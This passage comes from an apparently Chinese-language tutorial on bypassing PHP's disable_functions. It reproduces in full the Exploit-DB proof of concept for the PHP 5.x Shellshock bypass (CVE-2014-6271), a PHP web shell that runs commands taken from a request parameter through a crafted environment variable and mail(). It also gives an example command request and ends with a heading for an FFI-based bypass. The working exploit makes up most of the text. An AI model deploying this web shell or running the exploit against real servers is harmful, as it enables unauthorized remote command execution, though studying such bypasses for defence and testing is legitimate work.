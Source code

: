 [exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

命令:`?cmd=/usr/bin/id`

![](img/12.png)


---

# 下 调用函数和程序

## 7. PHP7.4 FFI 绕过 disable_functions
